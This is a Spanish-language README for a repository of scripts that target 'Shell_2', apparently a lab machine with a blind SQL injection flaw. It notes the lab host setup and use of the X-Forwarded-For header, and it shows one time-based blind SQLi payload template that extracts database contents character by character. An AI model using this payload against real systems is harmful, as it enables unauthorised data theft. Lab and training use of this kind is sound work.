 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

    El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
    Uso de encabezado `X-Forwarded-For`
    

## Impacto vulnerabilidad SQLi

# Procedimiento:

```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```

    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado que pueda causar impactos negativos. El propósito es y sólo es con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
